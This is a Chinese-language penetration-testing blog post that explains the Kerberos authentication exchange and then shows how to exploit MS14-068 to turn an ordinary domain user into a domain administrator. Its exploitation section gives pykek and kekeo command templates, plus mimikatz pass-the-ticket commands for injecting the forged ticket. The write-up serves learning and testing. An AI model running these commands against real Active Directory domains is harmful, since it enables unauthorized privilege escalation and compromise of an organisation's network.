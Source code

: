 ```yaml
---
title: "域内 MS14-068 的利用"
date: 2019-07-15T00:00:00+08:00
draft: false
tags: ['domain','mimikatz']
categories: ['内网渗透','漏洞复现']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


Kerberos 认证流程以及域内 MS14-068 的利用

<!--more-->

## Kerberos 认证流程

KDC(Key Distribution Center) 包含 AS(Authentication Server) 和 TGS(Ticket Granting Server).

一次完整的 Kerberos 请求需要 Client Server KDC 的共同参与, 故称为 Kerberos (三只狗头).

### KRB\_AS\_REQ

Client 向 AS 发送用户名, 以用户 Hash 加密的时间戳及 Client 信息.

### KRB\_AS\_REP

AS 检测用户名是否有效, 之后生成一串随机字符作为 session-key, 并发送以用户 Hash 加密的 session-key, 以 krbtgt Hash 加密的 session-key 和时间戳作为 TGT(Ticket Granting Ticket).

### KRB\_TGS\_REQ

Client 通过用户 Hash 解密获得 session-key, 再将 TGT 与以 session-key 加密的时间戳发送给 TGS.


### KRB\_TGS\_REP

TGS 通过 krbtgt Hash 解密获得 session-key 和时间戳并检测有效性, 然后发送以 Server Hash 加密的 session-key-1 作为 TGS Ticket(Service Ticket) 和以 session-key 加密的 session-key-1.

### KRB\_AP\_REQ

Client 通过 session-key 解密获得 session-key-1, 并向 Server 发送 TGS Ticket 和以 session-key-1 加密的时间戳.

### KRB\_AP\_REP

Server 通过 Server Hash 解密 TGS Ticket 获得 session-key-1, 之后再次解密得到时间戳, 最后验证有效性.

## ms14-068

ms14-068 可将域内普通用户提升至域管理员权限. 其原理为在 Kerberos 认证流程中 Client 可拒绝向 AS 请求 PAC 以构造一份伪造的 PAC 欺骗 TGT. 

### pykek

通过 pykek 利用.

```
pykek -u <userName>@<domainName> -s <userSid> -d <domainControllerAddr> [-p <clearPassword>|--rc4 <ntlmHash>]
```

```
mimikatz "kerberos::ptc ticket.ccache" "exit"
```

### kekeo

通过 kekeo 利用.

```
ms14-068 /user:<userName> /domain:<domainName> /dc:<domainControllerAddr> /sid:<userSid> /password:<clearPassword> [/ptt]
```

```
mimikatz "kerberos::ptt ticket.kirbi" "exit"
```

利用时无须本地管理员权限. 域内用户也能通过以上两种方式 ptt.

注意如果在 windows 2003 中是无法通过 `kerberos::ptt` 和 `kerberos::ptc` 来导入凭据的.